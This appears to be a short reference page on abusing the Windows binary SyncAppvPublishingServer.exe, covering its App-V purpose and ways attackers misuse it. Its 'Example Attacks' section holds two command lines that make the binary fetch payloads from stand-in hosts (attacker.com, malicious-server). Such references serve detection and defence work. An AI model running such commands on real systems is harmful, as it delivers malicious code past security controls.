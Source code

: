 # SyncAppvPublishingServer.exe
## What is it?
*SyncAppvPublishingServer.exe is a Windows binary associated with Microsoft App-V, used to synchronize virtual applications from a publishing server.*

## Legitimate Use
- *Used in enterprise environments for virtual application management.*
- *Synchronizes application updates for users running virtualized software.*

## How to abuse it
- *Can be misused to fetch and execute malicious App-V applications.*
- *Allows attackers to deliver payloads under the guise of software updates.*
- *Can bypass security controls as it is a trusted Microsoft binary.*

## Example Attacks
```
SyncAppvPublishingServer.exe "http://attacker.com/appv/malicious.appv"

SyncAppvPublishingServer.exe -sync -appvserver http://malicious-server
```
